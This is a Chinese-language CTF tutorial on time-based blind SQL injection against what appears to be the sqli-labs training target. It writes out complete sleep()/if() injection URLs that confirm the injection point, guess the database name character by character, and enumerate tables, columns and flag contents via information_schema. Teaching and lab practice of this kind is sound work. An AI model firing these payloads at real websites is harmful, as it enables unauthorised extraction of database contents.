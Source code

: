 #sql注入之sleep注入

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、原理

sleep注入又称基于时间的盲注。当网站页面上没有任何显示位，也没有输出sql语句执行错误信息。此时我们可以尝试采用sleep注入。

sleep注入需要注入的一点是，正常sql注入和错误的sql语句返回的页面都一样。但是加入了sleep(5)后页面的返回速度明显慢了五秒。

##三、靶机地址

>http://xx.xx.xx.xx:8080/sql/Less-9/index.php?id=1

##四、函数介绍

1.sleep()函数

sleep()函数可以让函数停留n秒时间，然后返回０。如果程序被打断,则返回1。

在一般情况下，sleep()函数的返回值恒为０，因此我们便可以利用sleep(n)=0的永真性来执行sql注入。

![](img/2.8/1.png)

执行上述语句的时候，会有一个时间的停顿。希望大家自己尝试一下。

2.if函数

if函数的表达式如下：

>if(表达式1,表达式2,表达式3)

如果表达式１是true，则返回表达式２；否则返回表达式３。

##五、实战

因为此关注入成功的判断都是延迟五秒返回界面。故在此不在截图。

1.判断注入类型以及闭合方式

我们按照以前的方法在后面添加单引号，and 1=1等因此尝试，发现页面无变化。因此我们尝试如下链接

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and if(1=0,1, sleep(10)) --+

此时发现过了将近10s后页面正常返回。单引号闭合成功。

2.猜数据库

首先我们来判断一下数据库的长度

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and if(length(database())=8,sleep(10),1)--+

我们可以发现，当length(database())为其他致时，页面会立刻返回。因为此时length(database())值为假，if函数返回1。所以页面会可以返回。

接下来我们继续猜测数据库名称

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+

此时，网站延时成功，根据我们上节课中给出的ascii码表。我们可以查出115对应的单词为s。

由于sleep注入sql语句错误时，不会有错误页面。即我们也无法使用二分法进行判断。因此我们需要逐位逐位的去常识。所以手工测试比较繁琐。

subsrt函数第二位表示截取位数，我们可以通过修改它的值，来判断后面的位置链接如下：

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),2,1))=100,sleep(10),1)--+

然后依次判断其他位数，再次不在详细叙述。

3.判断表名

首先我们来判断一下seucrity各个数据表的长度。

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=5,sleep(10),1)--+

然后依次判断表名称中的每个字符

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117,sleep(10),1)--+

通过上面的判断我们可以的得出存在flag这个表。

４.判段flag表中的列。

判断flag表中列的长度

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(length((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1))=４,sleep(10),1)--+

可以判断长度为４位，然后判断列名

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1),1,1))=117,sleep(10),1)--+

然后通过substr和limit参数来修改剩余各位。

5.判断内容

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(length((select flag from security.flag limit 0,1))=4,sleep(10),1)--+

##六、sqlmap

因sql布尔型注入需要对猜解的字符进行逐个尝试，过程相对繁琐。故本人还是推荐使用sqlmap.

关于sqlmap使用，本节课程跟上节课程相同。故在此不做叙述。

##七、赛题实战

如有问题，可以随时在知识星球内＠江江河畔砍柴人

赛题地址: https://t.zsxq.com/6AUzBaY

##八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.8/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.8/0.jpg)
